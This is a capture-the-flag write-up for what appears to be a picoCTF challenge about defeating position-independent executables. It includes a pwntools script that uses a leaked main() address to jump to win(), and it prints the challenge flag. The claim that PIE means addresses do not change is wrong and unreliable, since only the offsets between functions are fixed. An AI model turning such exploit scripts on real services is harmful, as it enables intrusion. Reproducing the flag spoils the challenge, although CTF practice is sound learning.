 # ANALYSIS
This challenge gives us an exxecutable and a part from its source code. At the same time, we get a netcat connection to a remote server.  

# SOLUTION
The given code shows that we have to get to a win function to get the flag. Firstly, we open the ELF executable with a debugger like **gdb**. We notice the win() and main() offsets, which are useful for the solution of the challenge.  


![](assets/solve1.png)  

Then, we observe that the ELF file has PIE enabled. This means that the function addresses dont change. Since we are given the main() address we can calculate the win() address.
The mathematical formula used was:  
win_address = main_address + (0x12a7 - 0x133d) = main_address - 0x96
  

In order to solve this challenge, we can make a python script that connects to the server, gets the main function address and makes the correct calculation for the win() function.
  
```python3#!/usr/bin/env python3
from pwn import *
context.log_level = 'error'

# Connect to the remote service
p = remote("rescued-float.picoctf.net", 62959)

# Extract the leaked main address
p.recvuntil(b"Address of main: ")
leaked_main = int(p.recvline().strip(), 16)

# Calculate win address (win_offset - main_offset = -0x96)
win_address = leaked_main - 0x96

# Send the payload
p.sendline(hex(win_address).encode())
p.recvuntil(b"won!")

# Receive the flag
print(p.recvall().decode())

```



* Flag: picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_ecb96bdd}
